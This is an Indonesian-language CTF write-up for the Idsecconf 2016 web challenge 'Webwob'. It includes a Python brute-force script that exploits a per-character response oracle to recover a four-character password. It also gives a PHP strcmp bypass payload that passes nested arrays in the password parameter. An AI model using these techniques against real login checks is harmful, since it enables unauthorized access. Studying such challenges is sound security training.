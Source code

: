 ```yaml
---
layout: post
title: "Writeup Idsecconf CTF 2016 : Webwob - 100"
description: "Writeup Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
category: Web Exploitation
tags: [idsecconf]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://128.199.96.39/`

### Solusi :

Kita di berikan website dengan di tampilkan source code nya dan terlihat jelas flag akan muncul ketika
variable `$ok` bernilai `True`. 

pertama saya mencoba memasukan parameter password 4x seperti ini
`http://128.199.96.39/?password[]=awd&password[]=awd&password[]=awd&password[]=awd`
namun tidak berhasil.

kemudian karena kita mengetahui panjang karakter password hanya 4 maka kita buat script untuk bruteforce

```python
import mechanize
import itertools
import string

br = mechanize.Browser()
url = "http://128.199.96.39/?password={0}{1}{2}{3}"
response = br.open(url)

cnt = 0
pat = "invalid {}Invalid"
acc = string.ascii_letters + "0123456789!@#$%^{}()[]"
combinations = itertools.permutations(acc,cnt+1)
res = ""
a = "x"
b = "x"
c = "x"
d = "x"
bb = "x"
cc = "x"
dd = "x"

while True:
    combinations = itertools.permutations(acc,1)
    for x in combinations:
        x = "".join(x)
        if a == "x":
            aa = x
        elif b == "x":
            bb = x
        elif c == "x":
            cc = x
        elif d == "x":
            dd = x
            
        response = br.open(url.format(aa,bb,cc,dd))
        #print url.format(aa,bb,cc,dd)
        cek = response.read().split("<")[0]
        #sprint cek
        if "flag" in cek:
            print cek
            break
        #print x
        
        if pat.format(cnt+1) in cek:
            cnt += 1
            if a == "x":
                a = x
            elif b == "x":
                b = x
            elif c == "x":
                c = x
            elif d == "x":
                d = x
            #print x
```

![Webwob Flag](/images/webwob_flag.png)

scriptnya agak berantakan disitu tujuan kita untuk dapat flagnya tapi :D

setelah membaca writeup dari [Cyber Security IPB](https://drive.google.com/drive/folders/0B73v7q0VGLSEWlRUbU96YXlsNU0) ternyata cara bypass vulnerability Strcmp di sini adalah seperti ini 
`http://128.199.96.39/?password[][]=&password[][]=&password[][]=&password[][]=`
karena input kita awalnya adalah array karena di dalam script melakukan pengecekan 
berdasarkan tiap index maka jika tiap index yang akan di cek adalah array maka akan
membuahkan hasil True.
